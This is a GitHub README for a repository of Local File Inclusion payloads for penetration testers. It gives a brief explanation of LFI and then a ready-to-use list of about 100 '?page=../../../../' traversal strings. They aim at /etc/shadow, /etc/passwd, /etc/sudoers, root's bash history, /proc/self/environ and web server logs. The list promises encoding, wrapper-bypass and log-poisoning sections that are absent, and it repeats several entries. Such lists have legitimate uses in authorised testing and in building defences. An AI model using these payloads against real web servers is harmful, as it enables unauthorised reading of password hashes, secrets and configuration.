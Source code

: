 # 🚀 LFI Payloads

Welcome to **LFI Payloads**! This repository is designed to help security researchers and penetration testers identify and exploit **Local File Inclusion (LFI)** vulnerabilities with effective payloads. 🛡️
<div align="center">
      <a href="https://www.whatsapp.com/channel/0029Vb68FeRFnSzGNOZC3h3x"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=WhatsApp+Channel&amp;color=25D366&amp;logo=&amp;logoColor=FFFFFF&amp;label=" alt="WhatsApp Channel"></a>
  <a href="https://t.me/HackerSecure"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=Telegram+Channel&amp;color=24A1DE&amp;logo=&amp;logoColor=FFFFFF&amp;label=" alt="Telegram Channel"></a>
  <a href="https://www.linkedin.com/in/cybersecurity-pentester/"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=LinkedIn&amp;color=0A66C2&amp;logo=LinkedIn&amp;logoColor=FFFFFF&amp;label=" alt="LinkedIn"></a>
  <a href="https://linktr.ee/yogsec"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=LinkTree&amp;color=25D366&amp;logo=&amp;logoColor=FFFFFF&amp;label=" alt="WhatsApp Channel"></a>
  <a href="https://x.com/home"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=X&amp;color=000000&amp;logo=&amp;logoColor=FFFFFF&amp;label=" alt="Lichess"></a>
  <a href="mailto:abhinavsingwal@gmail.com?subject=Hi%20YogSec%20,%20nice%20to%20meet%20you!"><img alt="Email" src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=Gmail&amp;color=EA4335&amp;logo=Gmail&amp;logoColor=FFFFFF&amp;label="></a>
  <a href="https://yogsec.github.io/yogsec/"><img src="https://img.shields.io/static/v1?style=for-the-badge&amp;message=Website&amp;color=FFFFC5&amp;logo=&amp;logoColor=FFFFFF&amp;label=" alt="Telegram Channel"></a>  
  
</div>

---

## 📂 What is LFI?
**Local File Inclusion (LFI)** is a web vulnerability that allows an attacker to include files on a server through the web browser. This can potentially lead to:

- 🕵️‍♂️ Information Disclosure
- 🐍 Code Execution
- 🔥 Server Compromise

---

## 📜 Payloads
This repository contains various payloads categorized for easy access:

✅ **Basic Payloads**  
✅ **Encoding Techniques**  
✅ **Traversal Techniques**  
✅ **Wrapper Bypass**  
✅ **PHP Filters**  
✅ **Log Poisoning Payloads**

### 🔥 100 Common LFI Payloads
```
?page=../../../../etc/passwd
?page=../../../../etc/hosts
?page=../../../../windows/win.ini
?page=../../../../boot.ini
?page=../../../../etc/shadow
?page=../../../../etc/group
?page=../../../../proc/self/environ
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../usr/local/apache/logs/access_log
?page=../../../../usr/local/apache/logs/error_log
?page=../../../../var/lib/mysql/mysql.sock
?page=../../../../etc/httpd/httpd.conf
?page=../../../../etc/apache2/apache2.conf
?page=../../../../etc/httpd/conf/httpd.conf
?page=../../../../etc/httpd/conf.d/vhosts.conf
?page=../../../../etc/nginx/nginx.conf
?page=../../../../etc/nginx/sites-enabled/default
?page=../../../../etc/ssl/openssl.cnf
?page=../../../../var/www/html/index.php
?page=../../../../home/user/.bash_history
?page=../../../../root/.bash_history
?page=../../../../etc/issue
?page=../../../../etc/network/interfaces
?page=../../../../etc/resolv.conf
?page=../../../../etc/hostname
?page=../../../../etc/hosts.allow
?page=../../../../etc/hosts.deny
?page=../../../../etc/security/opasswd
?page=../../../../etc/mtab
?page=../../../../etc/fstab
?page=../../../../etc/sudoers
?page=../../../../etc/pam.conf
?page=../../../../etc/profile
?page=../../../../etc/shells
?page=../../../../etc/inittab
?page=../../../../etc/passwd-
?page=../../../../etc/group- 
?page=../../../../etc/shadow- 
?page=../../../../etc/gshadow- 
?page=../../../../var/backups/passwd
?page=../../../../var/backups/group
?page=../../../../var/backups/shadow
?page=../../../../var/backups/gshadow
?page=../../../../dev/mem
?page=../../../../dev/kmem
?page=../../../../dev/port
?page=../../../../proc/mounts
?page=../../../../proc/partitions
?page=../../../../proc/version
?page=../../../../proc/self/status
?page=../../../../proc/self/cmdline
?page=../../../../proc/self/fd
?page=../../../../proc/self/maps
?page=../../../../proc/self/mountinfo
?page=../../../../proc/self/io
?page=../../../../proc/self/limits
?page=../../../../proc/self/cgroup
?page=../../../../proc/self/net/tcp
?page=../../../../proc/self/net/udp
?page=../../../../proc/self/net/raw
?page=../../../../proc/self/net/unix
?page=../../../../proc/self/net/snmp
?page=../../../../proc/self/net/dev
?page=../../../../proc/self/net/ip_conntrack
?page=../../../../proc/self/net/route
?page=../../../../proc/self/net/arp
?page=../../../../proc/self/net/fib_trie
?page=../../../../proc/self/net/netfilter
?page=../../../../var/run/utmp
?page=../../../../var/log/wtmp
?page=../../../../var/log/btmp
?page=../../../../var/log/lastlog
?page=../../../../var/run/utmpx
?page=../../../../var/log/wtmpx
?page=../../../../var/log/btmpx
?page=../../../../var/log/faillog
?page=../../../../var/log/auth.log
?page=../../../../var/log/secure
?page=../../../../var/log/messages
?page=../../../../var/log/syslog
?page=../../../../var/log/kern.log
?page=../../../../var/log/maillog
?page=../../../../var/log/yum.log
?page=../../../../var/log/dpkg.log
?page=../../../../var/log/apt/history.log
?page=../../../../var/log/apt/term.log
?page=../../../../var/log/aptitude
?page=../../../../var/log/boot.log
?page=../../../../var/log/cron
?page=../../../../var/log/daemon.log
?page=../../../../var/log/debug
?page=../../../../var/log/lpr.log
?page=../../../../var/log/user.log
?page=../../../../var/log/xferlog
?page=../../../../var/log/mail.info
?page=../../../../var/log/mail.warn
?page=../../../../var/log/mail.err
?page=../../../../var/log/httpd/access.log
?page=../../../../var/log/httpd/error.log
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
```

---

## ⚙️ Usage
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/LFI-Payloads.git
   ```
2. Navigate to the folder:
   ```bash
   cd LFI-Payloads
   ```
3. Use the categorized payloads as per your testing requirements.

